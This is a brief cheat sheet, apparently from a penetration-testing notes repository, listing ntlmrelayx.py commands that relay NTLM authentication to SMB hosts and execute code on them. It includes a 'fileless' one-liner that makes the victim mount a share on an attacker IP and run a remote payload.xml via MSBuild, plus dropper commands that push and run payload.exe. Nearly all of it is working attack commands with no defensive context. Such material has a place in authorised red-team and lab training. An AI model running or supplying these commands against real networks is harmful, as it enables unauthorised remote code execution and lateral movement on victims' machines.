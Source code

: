# 03 - Execute Payloads

## 01 - Syntax

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -c <commands>

$ sudo ntlmrelayx.py -tf targets.txt -smb2support -c <commands>
```

## 02 - Fileless Payloads

```
$ ntlmrelayx -smb2support --no-smb-server -t smb://<target_IP> -c 'cmd.exe /c "net.exe use \\<attacker_IP>\<share> [/user:<username> <password>] & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe \\<attacker_IP>\<share>\payload.xml"'
```

## 03 - Dropper Payloads

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -e payload.exe

$ sudo ntlmrelayx.py -tf targets.txt -smb2support -e payload.exe
```